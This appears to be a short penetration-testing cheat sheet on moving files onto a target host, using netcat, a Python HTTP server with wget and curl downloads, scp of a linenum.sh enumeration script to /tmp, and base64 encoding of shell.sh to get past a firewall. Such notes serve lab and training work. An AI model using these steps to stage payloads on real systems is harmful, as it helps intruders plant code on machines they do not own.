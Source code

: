 ```yaml
---
title: File Transfer
---
```


# [Netcat](./Tools/Netcat.md#file-transfer)

```bash
nc -nlvp 4444 > incoming.exe		# listening for data and pipe to a file
nc -nv 192.168.1.63 4444 < wget.exe
```

# File Server

```bash
python3 -m http.server 8000             # start a python file server on port 8000
wget http://10.10.10.10:8000/code.sh    # download the file using wget
curl http://10.10.10.10:8000/code.sh -o code.sh # download using curl
```

# SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

# Base64

In cases we are not able to transfer files (due to firewal).

We can encode file into `base64`, then copy and paste `base64` string on the remote server then decode it.

```bash
base64 shell.sh -w 0

echo <encoded payload> | base64 -d > shell.sh
```

# Validating File Transfer

```bash
file shell.sh    # show file information
md5sum shell.sh  # verify file hash
```


